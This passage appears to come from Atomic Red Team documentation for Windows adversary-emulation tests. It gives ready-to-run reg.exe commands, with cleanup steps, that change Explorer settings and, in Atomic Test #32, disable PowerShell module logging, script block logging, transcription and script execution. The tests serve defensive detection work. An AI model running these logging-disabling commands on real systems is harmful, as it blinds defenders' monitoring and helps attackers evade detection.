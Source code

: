 **Supported Platforms:** Windows


**auto_generated_guid:** 795d3248-0394-4d4d-8e86-4e8df2a2693f






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /f >nul 2>&1
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #32 - Windows Powershell Logging Disabled
Modify the registry of the currently logged in user using reg.exe via cmd console to disable Powershell Module Logging, Script Block Logging, Transcription and Script Execution
see https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.PowerShell::EnableModuleLogging

**Supported Platforms:** Windows


**auto_generated_guid:** 95b25212-91a7-42ff-9613-124aca6845a8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging /v EnableModuleLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /t REG_DWORD /d 0 /f
REM do a little cleanup immediately to avoid execution issues with later tests
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /f >nul 2>&1
```
